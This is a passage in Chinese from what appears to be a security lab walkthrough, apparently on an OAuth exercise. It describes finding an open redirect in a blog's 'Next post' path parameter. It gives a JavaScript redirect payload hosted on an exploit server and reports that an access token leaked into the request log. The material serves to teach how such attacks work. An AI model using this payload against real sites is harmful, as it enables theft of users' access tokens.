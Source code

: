 [![](assets/1706059995-74c8c80761ea5203abb17882493ffe9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233700-15a5e4b6-b93c-1.png)  
随后我们在查看博客时发现点击"Next post"时会发现这里的 path 参数竟然存在开放式重定向  
[![](assets/1706059995-6052dc64a76e7863d1635014b8fbfe6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233712-1c84502e-b93c-1.png)  
随后我们构造和上一个靶场一样的参数并在漏洞利用载荷服务器中托管以下内容

```plain
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

[![](assets/1706059995-811ce1a6b0627bd1b3e2129652ee644f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122233731-27f1c43c-b93c-1.png)  
分发请求后我们可以看到如下请求记录，其中包含了我们的 accesstoken 参数，说明这里的 token 可以被带出来

